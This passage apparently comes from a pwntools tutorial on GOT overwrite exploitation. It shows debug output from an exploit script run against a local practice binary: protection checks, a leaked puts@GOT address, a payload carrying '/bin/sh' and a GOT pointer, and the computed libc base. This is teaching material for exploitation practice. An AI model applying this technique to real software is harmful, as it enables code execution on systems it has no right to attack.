 If we run our exploit script with `DEBUG` (e.g. `python3 exploit.py DEBUG`) we can view all of the traffic that is sent back and forth between our exploit script and the target pwnable.

{{< rawhtml >}}
<pre>
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#5c5cff;">*</span>] &apos;/home/pwntools/pwntools/got-overwrite/got&apos;
    Arch:     i386-32-little
    RELRO:    <span style="color:#cd0000;">No RELRO</span>
    Stack:    <span style="color:#cd0000;">No canary found</span>
    NX:       <span style="color:#00cd00;">NX enabled</span>
    PIE:      <span style="color:#cd0000;">No PIE (0x8048000)</span>
puts&#64;got is at  0x80498b4
[<span style="color:#cd00cd;">x</span>] Starting local process &apos;/home/pwntools/pwntools/got-overwrite/got&apos;
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#00ff00;">+</span>] Starting local process &apos;/home/pwntools/pwntools/got-overwrite/got&apos;: pid 539
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#ff0000;">DEBUG</span>] Received 0x30 bytes:
    b&apos;GOT Overwrite\n&apos;
    b&apos;Message from Alice: (hello world)\n&apos;
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#ff0000;">DEBUG</span>] Sent 0x1c bytes:
    00000000  2f 62 69 6e  2f 73 68 <span style="color:#cd0000;">00</span>  63 61 61 61  64 61 61 61  │/bin<span style="color:#0000ee;">│</span>/sh<span style="color:#cd0000;">·</span><span style="color:#0000ee;">│</span>caaa<span style="color:#0000ee;">│</span>daaa│
    00000010  65 61 61 61  66 61 61 61  <span style="color:#0000ee;">b4</span> <span style="color:#0000ee;">98</span> <span style="color:#0000ee;">04</span> <span style="color:#0000ee;">08</span>               │eaaa<span style="color:#0000ee;">│</span>faaa<span style="color:#0000ee;">│</span><span style="color:#0000ee;">·</span><span style="color:#0000ee;">·</span><span style="color:#0000ee;">·</span><span style="color:#0000ee;">·</span>│
    0000001c
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#ff0000;">DEBUG</span>] Received 0x21 bytes:
    00000000  4d 65 73 73  61 67 65 20  66 72 6f 6d  20 2f 62 69  │Mess<span style="color:#0000ee;">│</span>age <span style="color:#0000ee;">│</span>from<span style="color:#0000ee;">│</span> /bi│
    00000010  6e 2f 73 68  3a 20 28 <span style="color:#0000ee;">a0</span>  <span style="color:#0000ee;">1c</span> <span style="color:#0000ee;">de</span> <span style="color:#0000ee;">f7</span> 30  2e <span style="color:#0000ee;">d9</span> <span style="color:#0000ee;">f7</span> 29  │n/sh<span style="color:#0000ee;">│</span>: (<span style="color:#0000ee;">·</span><span style="color:#0000ee;">│</span><span style="color:#0000ee;">·</span><span style="color:#0000ee;">·</span><span style="color:#0000ee;">·</span>0<span style="color:#0000ee;">│</span>.<span style="color:#0000ee;">·</span><span style="color:#0000ee;">·</span>)│
    00000020  <span style="color:#cd0000;">0a</span>                                                  │<span style="color:#cd0000;">·</span>│
    00000021
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#5c5cff;">*</span>] puts&#64;GOT == 0xf7de1ca0
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#5c5cff;">*</span>] &apos;/lib/i386-linux-gnu/libc-2.27.so&apos;
    Arch:     i386-32-little
    RELRO:    <span style="color:#cdcd00;">Partial RELRO</span>
    Stack:    <span style="color:#00cd00;">Canary found</span>
    NX:       <span style="color:#00cd00;">NX enabled</span>
    PIE:      <span style="color:#00cd00;">PIE enabled</span>
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#5c5cff;">*</span>] libc == 0xf7d7a000
[<span style="font-weight:bold;color:#7f7f7f;"></span><span style="font-weight:bold;color:#ff0000;">DEBUG</span>] Sent 0x4 bytes:
    00000000  <span style="color:#0000ee;">e0</span> 72 <span style="color:#0000ee;">db</span> <span style="color:#0000ee;">f7</span>                                         │<span style="color:#0000ee;">·</span>r<span style="color:#0000ee;">·</span><span style="color:#0000ee;">·</span>│
    00000004